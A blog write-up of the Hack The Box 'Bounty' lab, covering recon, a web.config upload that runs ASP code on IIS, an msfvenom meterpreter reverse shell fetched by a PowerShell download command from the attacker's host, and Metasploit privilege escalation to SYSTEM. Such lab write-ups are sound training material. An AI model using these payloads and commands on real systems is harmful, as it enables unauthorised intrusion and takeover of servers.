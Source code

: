 ```yaml
---
slug: bounty-writeup/
title: Bounty Writeup
date: 2018-10-29
category: attacks
subtitle: How to resolve HTB Bounty
tags: security, htb, pwn, web
image: https://res.cloudinary.com/fluid-attacks/image/upload/v1620330675/blog/bounty-writeup/cover_plk66f.webp
alt: Hand holding a pirate toy
description: In this article, we present how to exploit a Bounty machine's
  vulnerabilities and how to gain access as
  an Administrator and obtain the root flag.
keywords: HTB, Security, Hack the Box, Web, Writeup, Bounty, Vulnerabilities,
  Hacker, Ethical Hacking, Pentesting
author: Jonathan Armas
writer: johna
name: Jonathan Armas
about1: Systems Engineer, Security+
about2: Be formless, shapeless like water, Bruce Lee
source: https://unsplash.com/photos/NctO2nqkWCY
---
```


## Scanning Phase

First, we check the IP of the
[Bounty](https://www.hackthebox.eu/home/machines/profile/142) machine
and try a `ping` to see if we have access.

<div class="imgblock">

![ip](https://res.cloudinary.com/fluid-attacks/image/upload/v1620330674/blog/bounty-writeup/bounty-ip_gqy6uf.webp)

</div>

**ping.**

``` bash
host$ ping -c2 10.10.10.93
```

<div class="imgblock">

![ping](https://res.cloudinary.com/fluid-attacks/image/upload/v1620330675/blog/bounty-writeup/ping\_trcnb5.webp)

</div>

Then, we scan the ports with `nmap`. In this case, we’re going to use
basic `nmap`.

``` bash
host$ nmap 10.10.10.93
```

And, we see that there is only one port open `port 80`.

<div class="imgblock">

![nmap](https://res.cloudinary.com/fluid-attacks/image/upload/v1620330675/blog/bounty-writeup/nmap_earkie.webp)

</div>

Then, we try to access `port 80` with our browser, and it opens a web
page with an image of Merlin.

<div class="imgblock">

![web-page](https://res.cloudinary.com/fluid-attacks/image/upload/v1620330675/blog/bounty-writeup/web_fdltrp.webp)

</div>

As we see on this page, there is nothing more than an image, so we’re
going to scan the whole web server with `dirbuster` to see if we can
access something useful.

``` bash
host$ dirb http://10.10.10.91
```

<div class="imgblock">

![dirb-scan](https://res.cloudinary.com/fluid-attacks/image/upload/v1620330674/blog/bounty-writeup/dirb_ozvyui.webp)

</div>

Here we found a folder where uploaded files are stored. We need the page
of the upload functionality. With `dirbuster`, and some options, we can
set different extensions and obtain what we are looking for. Since this
is a `Windows` machine, we are going to use `asp` and `aspx` extensions.

``` bash
host$ dirb http://10.10.10.91 -X .asp,.aspx
```

<div class="imgblock">

![dirb-scan2](https://res.cloudinary.com/fluid-attacks/image/upload/v1620330672/blog/bounty-writeup/dirb2_kjlopp.webp)

</div>

<div class="imgblock">

![upload-page](https://res.cloudinary.com/fluid-attacks/image/upload/v1620330672/blog/bounty-writeup/upload-page_eu4cfl.webp)

</div>

## Getting user

In the last step we got an upload page, but with no further
instructions. There we can try to upload an image and check the result.

<div class="imgblock">

![upload1](https://res.cloudinary.com/fluid-attacks/image/upload/v1620330674/blog/bounty-writeup/upload1_ewlizg.webp)

</div>

But if we try with a webshell in `aspx` or `asp` it returns an error.

<div class="imgblock">

![upload2](https://res.cloudinary.com/fluid-attacks/image/upload/v1620330673/blog/bounty-writeup/upload2_dgzfkc.webp)

</div>

The web server has a filter that possibly checks the extension of the
uploaded file. If you try with double extension it won’t work either.

So what can we do? In `Windows` there are `3` major types of extensions:
`asp`, `aspx`, and `config`. We already tried the `asp` and `aspx`
extensions, what happens if we upload a `web.config` file?

``` xml
<?xml version="1.0" encoding="UTF-8"?>
<configuration>
   <system.webServer>
      <handlers accessPolicy="Read, Script, Write">
         <add name="web_config" path="*.config" verb="*"
           modules="IsapiModule"
           scriptProcessor="%windir%\system32\inetsrv\asp.dll"
           resourceType="Unspecified"
           requireAccess="Write" preCondition="bitness64" />
      </handlers>
      <security>
         <requestFiltering>
            <fileExtensions>
               <remove fileExtension=".config" />
            </fileExtensions>
            <hiddenSegments>
               <remove segment="web.config" />
            </hiddenSegments>
         </requestFiltering>
      </security>
   </system.webServer>
</configuration>
```

<div class="imgblock">

![upload11](https://res.cloudinary.com/fluid-attacks/image/upload/v1620330674/blog/bounty-writeup/upload1_ewlizg.webp)

</div>

We can see the result is positive. The `web.config` file is used by
`IIS` servers to store settings that come with the installation of the
`API`.

With this, we can start to exploit this machine. There is a
vulnerability on the `web.config` file processing that could allow an
attacker to execute code remotely, by injecting `asp` code in the file
(More information can be found
[here](https://soroush.secproject.com/blog/2014/07/upload-a-web-config-file-for-fun-profit/)
).

So, in order to have remote code execution (`RCE`), we need to add the
following lines to our `web.config` file:

``` text
  <!--
  <%
  Response.write("-"&"->")
  Response.write("</p><pre>")
  Set wShell1 = CreateObject("WScript.Shell")
  Set cmd1 = wShell1.Exec("cmd.exe /c whoami")
  output1 = cmd1.StdOut.Readall()
  set cmd1 = nothing: Set wShell1 = nothing
  Response.write(output1)
  Response.write("</pre><p><!-"&"-")
  %>
  -->
```

Then, we upload it, and access the file via the web, as before.

<div class="imgblock">

![rce-ok](https://res.cloudinary.com/fluid-attacks/image/upload/v1620330674/blog/bounty-writeup/rce-ok_ae3o75.webp)

</div>

**Eureka\!** With this, we can have our user flag, but we want an active
shell that we can use for further enumeration. For this, we can use
`msfvenom`. This is a tool that creates payloads in order to gain access
to a machine. It is installed by default on `Kali`; it also comes with
the installation of `Metasploit`. Then, we upload our file to the server
with our `RCE` and start a web server on our side to download our
exploit.

First, the exploit with msfvenom:

``` bash
host$ msfvenom -p windows/meterpreter/reverse_tcp LHOST=ip.ip.ip.ip LPORT=port -f exe -o myexploit.exe --smallest
```

This will create a malicious file. When executed on the server it will
give us a reverse shell with our `RCE` file using `meterpreter`. This is
an advanced, dynamically extensible payload that uses in-memory `DLL`
injection stagers, and is extended over the network at runtime.

Then we need to start a web server in our machine. We can do it with
`Python` by running:

``` bash
host$ python -m SimpleHTTPServer 7000
```

To make the server download our file, we can use the next `PowerShell`
command in our `web.config` file replacing the `whoami` one:

``` xml
Set cmd1 = wShell1.Exec("cmd.exe /c powershell -NoProfile -ExecutionPolicy unrestricted -Command (new-object System.Net.WebClient).Downloadfile('http://ip.ip.ip.ip:7000/myexploit.exe', 'C:\Windows\Temp\myexploit.exe')")
```

Upload it, and then open it on a private tab. Now, we can see that the
server downloaded our file.

<div class="imgblock">

![download](https://res.cloudinary.com/fluid-attacks/image/upload/v1620330672/blog/bounty-writeup/download_cxvzgn.webp)

</div>

Then we need to start our listener. We can use `Metasploit` to do it:

``` bash
host$ msfconsole
msf > use exploit/multi/handler
msf exploit(multi/handler) > set PAYLOAD windows/meterpreter/reverse_tcp
msf exploit(multi/handler) > set LHOST ip.ip.ip.ip
msf exploit(multi/handler) > set LPORT port
msf exploit(multi/handler) > run
```

With this, we are ready to initiate our reverse shell. In order to do
it, we need to run our exploit on the server with the same `RCE` method
as before, changing the command to the following:

``` xml
Set cmd1 = wShell1.Exec("cmd.exe /c C:\Windows\Temp\myexploit.exe")
```

Upload it, open the page of the `web.config` file and we have our
reverse shell.

<div class="imgblock">

![reverse-shell](https://res.cloudinary.com/fluid-attacks/image/upload/v1620330671/blog/bounty-writeup/reverse-shell_v0yoxx.webp)

</div>

## Getting root

With `meterpreter` we can start to enumerate the server.

<div class="imgblock">

![sys-info](https://res.cloudinary.com/fluid-attacks/image/upload/v1620330674/blog/bounty-writeup/sys-info_wlfn7g.webp)

</div>

And, we see that the server has an `x64 Architecture`. We are going to
repeat the process (`msfvenom`, `upload`, `handler`, `run`) but now with
the payload:

``` text
windows/x64/meterpreter/reverse_tcp
```

Then, when we have another session opened, we are going to run the next
one:

``` bash
meterpreter > run post/multi/recon/local_exploit_suggester
```

<div class="imgblock">

![exploit-suggester](https://res.cloudinary.com/fluid-attacks/image/upload/v1620330674/blog/bounty-writeup/exploit-suggester_cr3q7v.webp)

</div>

Here we got some exploits that we can use to elevate to `Administrator`,
we are going to use the first one with:

``` bash
meterpreter > background
msf exploit(multi/handler) > use exploit/windows/local/ms10_092_schelevator
msf exploit(windows/local/ms10_092_schelevator) > set SESSION sessionnum
msf exploit(windows/local/ms10_092_schelevator) > set PAYLOAD windows/x64/meterpreter/reverse_tcp
msf exploit(windows/local/ms10_092_schelevator) > set LPORT port
msf exploit(windows/local/ms10_092_schelevator) > set LHOST ip.ip.ip.ip
msf exploit(windows/local/ms10_092_schelevator) > run
```

When it finishes, we will have a new session created and with user `NT
Authority\System`.

<div class="imgblock">

![admin](https://res.cloudinary.com/fluid-attacks/image/upload/v1620330673/blog/bounty-writeup/admin_bqoqsf.webp)

</div>

With this we can read our `root` flag.

On this challenge, we learned there was a vulnerability with the
`web.config` file. We also learned to always check the architecture when
we access a machine as a user, and how to use some of the `meterpreter`
commands.
